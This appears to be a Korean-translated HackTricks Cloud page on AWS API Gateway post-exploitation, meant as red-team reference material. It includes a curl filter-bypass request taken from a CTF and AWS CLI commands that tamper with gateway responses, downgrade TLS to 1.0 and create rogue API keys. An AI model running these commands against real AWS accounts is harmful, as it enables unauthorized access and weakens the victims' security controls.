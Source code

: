# AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## API Gateway

자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 노출되지 않은 API에 접근

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:)에서 `com.amazonaws.us-east-1.execute-api` 서비스를 사용하여 엔드포인트를 생성하고, 접근할 수 있는 네트워크(잠재적으로 EC2 머신을 통해)에서 엔드포인트를 노출시키고 모든 연결을 허용하는 보안 그룹을 할당합니다.\
그런 다음, EC2 머신에서 엔드포인트에 접근하여 이전에 노출되지 않았던 게이트웨이 API를 호출할 수 있습니다.

### Request body passthrough 우회

이 기술은 [**이 CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp)에서 발견되었습니다.

[AWS 문서](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html)의 `PassthroughBehavior` 섹션에 명시된 대로, 기본적으로 **`WHEN_NO_MATCH`** 값은 요청의 **Content-Type** 헤더를 확인할 때, 변환 없이 요청을 백엔드로 전달합니다.

따라서, CTF에서 API Gateway는 `Content-Type: application/json`으로 요청이 전송될 때 응답에서 플래그가 유출되지 않도록 하는 통합 템플릿을 가지고 있었습니다:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

그러나 **`Content-type: text/json`**으로 요청을 보내면 해당 필터를 피할 수 있습니다.&#x20;

마지막으로, API Gateway가 `Get`과 `Options`만 허용하고 있었기 때문에, 본문에 쿼리를 포함한 POST 요청을 보내고 헤더에 `X-HTTP-Method-Override: GET`을 사용하여 제한 없이 임의의 dynamoDB 쿼리를 보낼 수 있었습니다:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

**Enumeration** 섹션에서 키의 **사용 계획을 얻는 방법**을 볼 수 있습니다. 키를 가지고 있고 그것이 **월 X 사용으로 제한**되어 있다면, **그것을 사용하여 DoS를 일으킬 수 있습니다**.

**API Key**는 **`x-api-key`**라는 **HTTP 헤더**에 **포함**되기만 하면 됩니다.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 Gateway Response를 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 커스텀 헤더 또는 응답 템플릿을 포함시킬 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potential Impact**: 민감한 정보 유출, 악성 스크립트 실행, 또는 API 리소스에 대한 무단 접근.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway 스테이지를 수정하여 트래픽을 다른 스테이지로 리디렉션하거나 캐싱 설정을 변경하여 캐시된 데이터에 무단 접근할 수 있습니다**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**잠재적 영향**: 캐시된 데이터에 대한 무단 접근, API 트래픽 방해 또는 가로채기.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **기존 API Gateway REST API 메서드의 메서드 응답을 수정하여 민감한 정보를 유출하거나 악성 스크립트를 실행하는 커스텀 헤더 또는 응답 템플릿을 포함시킬 수 있습니다**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: 민감한 정보 유출, 악성 스크립트 실행, 또는 API 리소스에 대한 무단 접근.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` 및 `apigateway:CreateDeployment` 권한을 가진 공격자는 **API Gateway REST API 설정을 수정하여 로깅을 비활성화하거나 최소 TLS 버전을 변경하여 API의 보안을 약화시킬 수 있습니다**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**잠재적 영향**: API의 보안을 약화시켜 비인가 접근을 허용하거나 민감한 정보를 노출시킬 수 있습니다.

{% hint style="info" %}
테스트 필요
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey` 권한을 가진 공격자는 **새로운 API 키를 생성하고 이를 사용 계획에 연결한 후, 이러한 키를 사용하여 API에 비인가 접근을 할 수 있습니다**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**잠재적 영향**: API 리소스에 대한 무단 접근, 보안 통제 우회.

{% hint style="info" %}
테스트 필요
{% endhint %}

<details>

<summary><strong>제로부터 히어로까지 AWS 해킹 배우기</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법들:

* **HackTricks에 회사 광고**를 원하거나 **PDF로 HackTricks 다운로드**를 원하시면 [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com) 받기
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family) 발견하기
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* **PR을 제출하여 해킹 트릭을 공유하세요** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에.

</details>
